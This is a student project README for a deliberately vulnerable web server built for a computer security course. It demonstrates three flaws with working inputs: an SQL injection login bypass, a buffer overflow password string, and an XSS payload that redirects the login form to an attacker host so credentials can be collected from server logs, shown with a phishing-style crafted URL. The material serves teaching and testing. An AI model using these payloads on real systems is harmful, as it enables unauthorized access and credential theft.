 # Computer system security - Project 2  : the 3-flaws webserver
**Group #** : 5

**Members** :
- Laurent MINY
- Etienne DE JAMBLINNE DE MEUX

The whole project was made and tested on a Debian Jessie 8 x64 with Xampp installed and Firefox ESR 45.7.0

## Injection SQL
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The injection can be done by entering any password and the following username :
```
admin' or '1'='1' #
```

## Buffer Overflow
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The buffer overflow is done by rewriting the variable 'int pwd_matches' with garbage. And everything different over value 0 means "Password valid". So we can enter the username 'admin' (guessed) and the following as password (29 * 'h') :
```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhh
```

**Remarks** :
- the file 'check-login' and 'buff3r-ov3rfl0w' must have the correct rights
- the file 'buff3r-ov3rfl0w' has to be compile for your system (more info in the source file 'buff3r-ov3rfl0w.c'). The one supplied is compiled on Debian Jessie 8 x64.

## XSS

The XSS (Cross-site scripting) is done by entering as username the following javascript (and any password) :

```javascript
<script>
document.addEventListener("DOMContentLoaded", function(event) { // To wait for DOM to be ready
  document.forms["form-login"].action="http://www.attacker-website.com"; // To send to login form to the website of an attacker.
});
</script>
```

If the attacker website is lminy.alwaysdata.net, with a little bit of social engineering, he could send an email to the admin my saying that there is a problem on [this page](http://localhost/homework2/?username=%3Cscript%3Edocument.addEventListener%28%22DOMContentLoaded%22%2Cfunction%28a%29{document.forms[%22form-login%22].action%3D%22http%3A%2F%2Flminy.alwaysdata.net%22}%29%3B%3C%2Fscript%3E&password=pwd). The user is tricked to enter again his login and password and the evil is done!

The attacker can then check its apache logs to know the username & password of the admin :

![Apache-logs](./lminy.alwaysdata.net.log.png?raw=true)
